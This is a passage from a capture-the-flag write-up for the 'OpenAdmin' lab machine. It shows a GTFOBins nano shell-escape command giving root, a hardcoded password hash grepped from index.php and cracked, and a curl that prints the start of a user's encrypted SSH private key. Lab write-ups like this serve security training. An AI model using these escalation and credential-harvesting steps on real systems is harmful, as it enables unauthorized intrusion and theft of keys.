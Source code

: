 	3.  `root` shell obtained
		```
		Command to execute: reset; sh 1>&0 2>&0#
		#  Get Help         ^X Read File
		#  Cancel          M-F New Buffer
		# id;whoami
		uid=0(root) gid=0(root) groups=0(root)
		root
		```
3. Demo - `GTFOBins nano`
	![](dn6WAwGVBq.gif)


# Additional

## Joana - Login & Obtain SSH Private
1. Instead of inserting a webshell, we can login to `TCP/52846`, revealing `joanna` SSH private key
2. Since we have `RWX` on `/var/www/internal`, view  `index.php`
	```php
	jimmy@openadmin:/var/www/internal$ cat index.php | grep password
	         .form-signin input[type="password"] {
	            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
	              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
	                  $msg = 'Wrong username or password.';
	            <input type = "password" class = "form-control"
	               name = "password" required>
	```
	- Found hash
3. Crack Hash w/ [dcode](https://www.dcode.fr/sha512-hash)
	![]({{ page.img_path }}Pasted%20image%2020220926042206.png)
4. Login w/ `jimmy:Revealed`, `joanna`'s SSH private key is displayed
	![]({{ page.img_path }}Pasted%20image%2020220926042456.png)


## Fix main.php
1.  `main.php` is missing `die` command, if we were to `curl` `main.php`, SSH private key will still be displayed
	```
	jimmy@openadmin:~$ curl -s localhost:52846/main.php
	<pre>-----BEGIN RSA PRIVATE KEY-----
	Proc-Type: 4,ENCRYPTED
	DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D
	